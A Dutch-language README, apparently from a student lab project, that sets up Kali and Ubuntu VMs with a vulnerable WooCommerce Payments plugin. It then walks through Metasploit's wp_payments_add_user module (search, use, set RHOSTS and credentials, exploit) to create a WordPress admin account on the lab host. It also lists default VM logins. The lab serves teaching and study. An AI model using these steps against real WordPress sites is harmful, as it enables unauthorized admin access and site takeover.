 # Readme voor WordPress exploit

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.

## Inloggegevens van de VM's

- Kali Linux:

Log in: root

Wachtwoord: osboxes.org

- Ubuntu server:

Log in: osboxes

Wachtwoord: osboxes.org

## Scripts en bestanden nodig voor het opzetten van de omgeving.

We hebben de omgeven opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 4 bestanden vinden.

1. rootpromotie.sh
   - Dit bash script zal gecopieerd worden naar de kali linux machine en dan uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. vmcreator.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 2 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook beide bash scripts uitvoeren en dus de volledige installatie automatiseren.
4. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.

Download ook deze twee .vdi files van [OSBoxes](https://www.osboxes.org/)

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download ook de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
   Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij.
   Pak nu beide .vdi's uit.

## Opzetten van de omgeving

Pak de .zip file die u gedownload heeft uit.
Voer enkel het "vmcreator.ps1" uit. Alvoor u dit kan doen zal u het bestand moeten vertrouwen.
Doe dit door, rechtermuisklik vervolgens "Eigenschappen" te openen en vanonder te klikken op "Blokkering opheffen". Dit is noodzakelijk, anders zal het script niet uitvoerbaar zijn!
Het script zal u drie absolute paden vragen. Onder andere van de twee .vdi bestanden als ook van de "shared" map. Dit is de map die u zojuist hebt gedownload en uitgepakt. Tijdens het uitvoeren van het "vmcreator.ps1" script zal er gevraagd worden om het wachtwoord van de Ubuntu server op te geven, dit is: `osboxes.org`.

### Uitzonderingen/Errors

Zorg ervoor dat na het uitvoeren van het script de laatste regel in de console het volgende weergeeft: "IP-adres van de Ubuntu-server: "arthurisgeenjaak.com". Als dit niet het geval is, betekent dit dat het hosts-bestand niet correct is aangemaakt.

Hier volgt een voorbeeld van hoe het einde van het script kan uitzien (indien er een fout is in geslopen):

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server:
```

OF in het bestand "/etc/hosts" kan je controleren dat "arthurisgeenjaak.com" in voorkomt. Dit kan u bekijken door in de shell het volgende commando in te voeren: `sudo nano /etc/hosts`.

U kan dit oplossen door:

1. Deze handmatig aan te maken in de host-file, door `sudo nano /etc/hosts` in de shell in te geven. Daarna "arthurisgeenjaak.com" in dit bestand te schrijven, het bestand op te slaan en af te sluiten.
2. Het PowerShell script nogmaals uitvoeren. Deze zal enkel de bash scripts uitvoeren aangezien de VM's al bestaan.

   Nu zou dit te zien moeten zijn.

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server: arthurisgeenjaak.com
```

## Misbruiken van exploit a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.
Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

```bash
search woocommerce
```

We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22"
Gebruik voor het selecteren van de juiste exploit het commando:

```bash
use #{numer van exploit. normaal 1}
```

Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit.
Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

```bash
show options
```

```bash
set RHOSTS arthurisgeenjaak.com
set username #{Username van het nieuw admin account die u wilt maken}
set password #{Password van het nieuw admin account die u wilt maken}
```

Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

```bash
exploit
```

Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server dat kan gebruikt worden om misbruik te maken van deze server.
